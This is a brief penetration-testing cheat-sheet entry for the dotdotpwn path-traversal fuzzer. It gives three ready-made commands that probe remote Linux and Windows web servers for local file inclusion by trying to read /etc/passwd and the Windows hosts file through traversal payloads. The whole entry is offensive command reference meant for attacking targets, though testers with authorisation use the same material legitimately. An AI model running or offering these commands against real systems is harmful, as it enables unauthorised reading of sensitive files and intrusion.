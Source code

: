 # dotdotpwn

% lfi, local file inclusion

#plateform/linux #target/remote #cat/RECON


## dotdotpwn - recon linux (Req)
```
dotdotpwn -m payload -h <ip>  -x <port|80> -p <req_file|/tmp/payload.req> -k wpattern|root> -f <file|/etc/passwd>  -d <depth|5> -b -o unix
```
## dotdotpwn - recon linux
```
dotdotpwn -m http-url  -u http://<url>=TRAVERSAL -M GET -k <pattern|root> -f <file|/etc/passwd>  -d <depth|5> -b -q
```


## dotdotpwn - recon windows
```
dotdotpwn -m http-url  -u http://<url>=TRAVERSAL -M GET -k <pattern|localhost> -f <file|/windows/system32/drivers/etc/hosts>  -d <depth|5> -b -q
```

